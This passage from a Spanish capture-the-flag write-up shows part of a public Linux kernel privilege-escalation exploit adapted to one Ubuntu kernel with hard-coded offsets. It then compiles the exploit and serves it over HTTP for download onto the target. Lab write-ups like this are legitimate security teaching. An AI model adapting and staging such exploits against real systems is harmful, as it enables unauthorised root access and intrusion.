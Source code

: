 {% highlight c %}
//modificamos el struct y dejamos solo la versión que nos interesa
//[...]
struct kernel_info kernels[] = {
{ "xenial", "4.8.0-58-generic", 0xa5d20, 0xa6110, 0x17c55, 0xe56f5, 0x119227, 0x1b170, 0x439e7a, 0x162622, 0x7bd23, 0x12c7f7, 0x64210, 0x49fa0 },
};
//[...]
//modificamos la función detect_versions() :
void detect_versions() {
    char codename[DISTRO_CODENAME_LENGTH];
    char version[KERNEL_VERSION_LENGTH];
 
    get_distro_codename(&codename[0], DISTRO_CODENAME_LENGTH);
    get_kernel_version(&version[0], KERNEL_VERSION_LENGTH);
 
    int i;
    for (i = 0; i < ARRAY_SIZE(kernels); i++) {
        if (strcmp(&codename[0], kernels[i].distro) == 0 &&
            strcmp(&version[0], kernels[i].version) == 0) {
            printf("[.] kernel version '%s' detected\n", kernels[i].version);
            kernel = i;
            return;
        }
    }
    kernel = 0;
    return;
}
//[...]
{% endhighlight %}

Compilamos el codigo localmente y enviamos nuestro exploit a la maquina victima.  

{% highlight zsh %}
┌─[root@Kratos] - [/Ethic4l-Hacking/Operations/Premium/Nightmare] - [Thu Apr 25, 11:47]
└─[$]> # gcc 43418.c -o MalwareEscPriv
{% endhighlight %}

## Creando un servidor HTTP para alojar nuestro malware
Ejecutamos el siguiente comando para levantar un servidor HTTP para exponer nuestro malware y posteriormente descargarlo en la maquina victima.  

{% highlight zsh %}
┌─[root@Kratos] - [/Ethic4l-Hacking/Operations/Premium/Nightmare] - [Thu Apr 25, 11:47]
└─[$]> # ls -la
total 1,9M
drwxr-xr-x  2 gerh root 4,0K may 26 02:30 .
drwxr-xr-x 28 gerh root 4,0K may 26 02:30 ..
-rw-r--r--  1 gerh root  212 may 24 12:16 creds
-rw-r--r--  1 gerh root 7,7K may 24 12:37 nmap-Nightmare.xml
-rwxr-xr-x  1 root root  24K jun 15 05:45 MalwareEscPriv
-rw-r--r--  1 gerh root 1,9K may 24 12:37 nmap-scan.txt
-rw-r--r--  1 gerh root 3,8K may 24 12:52 sftp-exploit.py
┌─[root@Kratos] - [/Ethic4l-Hacking/Operations/Premium/Nightmare] - [Thu Apr 25, 11:47]
└─[$]> # python3 -m http.server -p 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}
